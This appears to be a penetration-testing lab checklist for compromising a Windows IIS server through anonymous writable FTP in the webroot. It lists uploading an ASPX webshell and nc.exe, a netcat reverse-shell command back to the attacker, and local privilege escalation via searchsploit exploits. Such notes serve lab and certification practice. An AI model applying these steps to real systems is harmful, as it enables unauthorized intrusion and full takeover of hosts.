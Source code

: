 ```yaml
---
description: Windows with writable anonymous FTP in Webroot
---
```


# Windows-FTP-WWW

In this scenario a Windows machine is firewall protected but has open FTP and HTTP ports.  Upon enumeration it is discovered that FTP allows anonymous login to the webroot folder if IIS.

* [ ] FTP to target / logon as anonymous
* [ ] Upload ASPX webshell from /usr/share/webshells/aspx/cmdasp.aspx 
* [ ] Switch to binary mode and upload nc.exe from /usr/share/windows-binaries/
* [ ] Start netcat listener \(nc -nlvp 4444\)
* [ ] Browse to target cmdasp.aspx and execute netcat reverse shell \(nc &lt;me&gt; 4444 -e cmd.exe\)
* [ ] Check whoami \(app pool identity\)
* [ ] Check ver and match to OS
* [ ] Searchploit OS \| grep local
* [ ] Choose local exploit and upload to target
* [ ] Execute exploit using netcat reverse shell
* [ ] Get admin or system shell, check whoami, get proofs



